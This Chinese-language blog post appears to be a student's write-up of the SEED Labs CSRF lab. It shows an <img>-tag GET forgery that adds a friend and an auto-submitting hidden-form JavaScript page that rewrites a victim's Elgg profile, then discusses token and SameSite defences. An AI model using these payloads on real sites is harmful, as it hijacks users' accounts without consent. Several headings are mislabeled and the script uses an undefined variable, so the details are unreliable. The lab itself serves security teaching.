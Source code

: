 ```yaml
---
layout:     post
title:      "CSRF"
date:       2020-08-01 00:00:00 +0800
categories: 实验
tags:       seedlab csrf
summary:    "本文为 SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab 的实验记录，介绍了如何利用 CSRF 攻击加好友和修改用户资料，并探讨了相应的防御措施。"
series:     SEEDLabs
series_index: 3
mathjax:    true
---
```


本文为 [SEED Labs 2.0 - Cross-Site Request Forgery Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_CSRF_Elgg/) 的实验记录。

## 实验原理

在客户机和服务器之间进行请求-响应时，两种最常被用到的方法是 GET 和 POST。

- ***GET*** - 从指定的资源请求数据
- ***POST*** - 向指定的资源提交要被处理的数据

## Task 1: Defeating XSS Attacks Using CSP

修改 `/etc/hosts`

```shell
sudo vim /etc/hosts
```

更改为

```plaintext
10.9.0.5 www.seed-server.com
10.9.0.5 www.example32.com
10.9.0.105 www.attacker32.com
```

然后启动 docker

```shell
dcbuild
dcup
```

访问 [www.seed-server.com](www.seed-server.com)。

打开 Header live 插件，例如登陆时能看到如下请求。

![Defeating XSS Attacks Using CSP](/assets/post/images/csrf1.webp)

这个内容很简单，不再赘述。

## Task 2: Defeating XSS Attacks Using CSP

我们需要加 Alice 为好友。登录 Samy 账号，点进 Alice 主页，点击 Add friend

![Defeating XSS Attacks Using CSP](/assets/post/images/csrf2.webp)

可以看到加好友的方法为 `GET`， url 为 `http://www.seed-server.com/action/friends/add?friend=user id&cookie等`。这里 user id 就是 Alice 的 id。要想让 Alice 加自己，就需要知道自己的 id。

去往 members 页面，<kbd>F12</kbd>查看列表，可以看到用户 id 都被直接明文存储了。

![Defeating XSS Attacks Using CSP 明文存储](/assets/post/images/csrf3.webp)

我们找到自己的 user id 为 59。这里按照手册，应当去修改 seedlabs 给我们的网页。但其实根本没有必要，我们只需要编辑个人资料，内容如下。

```html
<img src="http://www.seed-server.com/action/friends/add?friend=59">
```

![Defeating XSS Attacks Using CSP 编辑个人资料](/assets/post/images/csrf4.webp)

`<img>`会自动发送 `GET` 请求。现在登录 Alice 的账号，点进 Samy 的个人资料，可以看到，已经自动加了好友。

![Defeating XSS Attacks Using CSP 结果](/assets/post/images/csrf5.webp)

## Task 3: CSRF Attack using POST Request

我们需要修改 Alice 的 profile。登录 Samy 账号，我们先试着修改自己的 profile。保存后看到发出了如下请求：

![CSRF Attack using POST Request](/assets/post/images/csrf6.webp)

可以看到修改 profile 方法为 `POST`，url 为 [http://www.seed-server.com/action/profile/edit](http://www.seed-server.com/action/profile/edit)

我们要整一个网页来执行我们的 javasrcipt，编辑 `editprofile.html`

```html
<html>
<body>
<h1>This page forges an HTTP POST request.</h1>
<script type="text/javascript">

function forge_post()
{
    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='Alice'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";
    fields += "<input type='hidden' name='guid' value='56'>";

    // Create a <form> element
    var form = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "POST";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}

// Invoke forge_post() after the page is loaded.
window.onload = function() { forge_post(); }
</script>
</body>
</html>
```

然后修改 profile 如下所示，并添加 [www.attacker32.com/editprofile.html](www.attacker32.com/editprofile.html) 的链接。

![CSRF Attack using POST Request 编辑个人资料](/assets/post/images/csrf8.webp)

登录 Alice 账号，假设她闲得慌，点了 Samy 主页的那个链接

![CSRF Attack using POST Request 点击链接](/assets/post/images/csrf9.webp)

可以看到，profile 就被自动改掉了。

![CSRF Attack using POST Request 结果](/assets/post/images/csrf10.webp)

> **Question 1:** The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets
> Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know
> Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe
> how Boby can solve this problem.

我们在 Task 2 已经展示过了如何找到 user id。

> **Question 2:** If Boby would like to launch the attack to anybody who visits his malicious web page.
> In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF
> attack to modify the victim’s Elgg profile? Please explain.

不可以。注意到，我们修稿 profile 是需要用户的 user id 的，显然大家的 user id 各不相同。

## Task 4: Enabling Elgg’s Countermeasure

进入 `image_www/elgg` 文件夹，编辑 Csrf.php。注释掉第 69 行的 return。

编辑 editprofile.html，让 Alice 修改资料为 Samy is really my hero。

登录 Alice 账号，点击 Samy 主页的链接

![Enabling Elgg’s Countermeasure 结果](/assets/post/images/csrf11.webp)

可以看到，由于验证 cookie，Alice 的 profile 不再可以改变。且因为请求失败就会刷新网页，刷新后再次请求，这个网页在疯狂地循环刷新。

## Task 5: Experimenting with the SameSite Cookie Method

访问 [www.example32.com](www.example32.com)。然后点击各个按钮。

可以看到，对于 same-site request，有 cookie-strict；而 cross-site request 没有。

SameSite cookies 的作用就是限制第三方 cookie，减少安全风险。如果我们想要使用 SameSite cookies，应当设置为 Lax 规则（strict 也可以，但用户体验极差），具体限制内容见下表：

| 请求类型  | Lax         |
| --------- | ----------- |
| 链接      | 发送 Cookie |
| 预加载    | 发送 Cookie |
| GET 表单  | 发送 Cookie |
| POST 表单 | 不发送      |
| iframe    | 不发送      |
| AJAX      | 不发送      |
| Image     | 不发送      |

这样除了导航到目标网址的 GET 请求外，将不会发送 cookie。

## 实验总结

实验原理简单，操作也很简单，没有难度。
